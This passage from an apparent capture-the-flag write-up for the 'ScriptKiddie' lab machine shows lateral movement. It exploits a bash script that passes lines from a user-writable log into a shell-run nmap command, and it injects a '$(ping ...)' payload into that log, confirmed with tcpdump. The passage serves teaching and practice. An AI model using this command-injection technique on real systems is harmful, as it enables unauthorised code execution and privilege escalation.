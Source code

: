 ## Lateral Movement to pwn
Observing the running processes and local enumerating the box it was possible to discover a **bash script vulnerable to code injection** ran by the `pwn` user:
```bash
kid@scriptkiddie:~/html$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
kid:x:1000:1000:kid:/home/kid:/bin/bash
pwn:x:1001:1001::/home/pwn:/bin/bash

kid@scriptkiddie:/var/www$ id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
2021/04/21 12:51:12 CMD: UID=1001 PID=64051  | /bin/bash /home/pwn/scanlosers.sh
2021/04/21 12:51:12 CMD: UID=1001 PID=64055  |
2021/04/21 12:51:12 CMD: UID=1001 PID=64054  |
2021/04/21 12:51:12 CMD: UID=1001 PID=64059  | /bin/bash /home/pwn/scanlosers.sh
2021/04/21 12:51:12 CMD: UID=1001 PID=64058  | /bin/bash /home/pwn/scanlosers.sh
2021/04/21 12:51:12 CMD: UID=1001 PID=64057  | nmap --top-ports 10 -oN recon/10.10.14.14.nmap 10.10.14.14
2021/04/21 12:51:12 CMD: UID=1001 PID=64056  | sh -c nmap --top-ports 10 -oN recon/10.10.14.14.nmap 10.10.14.14 2>&1 >/dev/null
2021/04/21 12:51:13 CMD: UID=1001 PID=64064  | /bin/bash /home/pwn/scanlosers.sh
2021/04/21 12:51:13 CMD: UID=1001 PID=64063  | /bin/bash /home/pwn/scanlosers.sh
2021/04/21 12:51:13 CMD: UID=1001 PID=64062  | /bin/bash /home/pwn/scanlosers.sh
2021/04/21 12:51:13 CMD: UID=1001 PID=64061  | /bin/bash /home/pwn/scanlosers.sh
2021/04/21 12:51:13 CMD: UID=1001 PID=64060  | /bin/bash /home/pwn/scanlosers.sh
2021/04/21 12:51:14 CMD: UID=0    PID=64067  | /usr/sbin/incrond
2021/04/21 12:52:01 CMD: UID=0    PID=64081  | /bin/sh -c find /home/kid/html/static/payloads/ -type f -mmin +5 -delete
2021/04/21 12:52:01 CMD: UID=0    PID=64080  | /usr/sbin/CRON -f
...
2021/04/21 12:56:57 CMD: UID=1001 PID=64210  | /bin/bash -c sed -i 's/open  /closed/g' "/home/pwn/recon/10.10.14.14.nmap"
```

The `scanlosers.sh` script ran every time a hack was detected. It **read data from a writable log file** owned by `kid` (current user) and **used them** to build an `nmap` command:
```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

A `ping` command was **injected inside the log** file to verify the vulnerability:
```bash
kid@scriptkiddie:~/logs$ echo '0 0 $(ping -c1 10.10.14.14)' > hackers
```
```bash
┌──(kali㉿kali)-[~/…/box/ScriptKiddie/loot/pwn_script]
└─$ sudo tcpdump icmp -i tun0
[sudo] password for kali:
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
12:20:06.879068 IP 10.10.10.226 > 10.10.14.14: ICMP echo request, id 5, seq 1, length 64
12:20:06.879098 IP 10.10.14.14 > 10.10.10.226: ICMP echo reply, id 5, seq 1, length 64
12:20:06.930982 IP 10.10.10.226 > 10.10.14.14: ICMP echo request, id 6, seq 1, length 64
12:20:06.931030 IP 10.10.14.14 > 10.10.10.226: ICMP echo reply, id 6, seq 1, length 64
```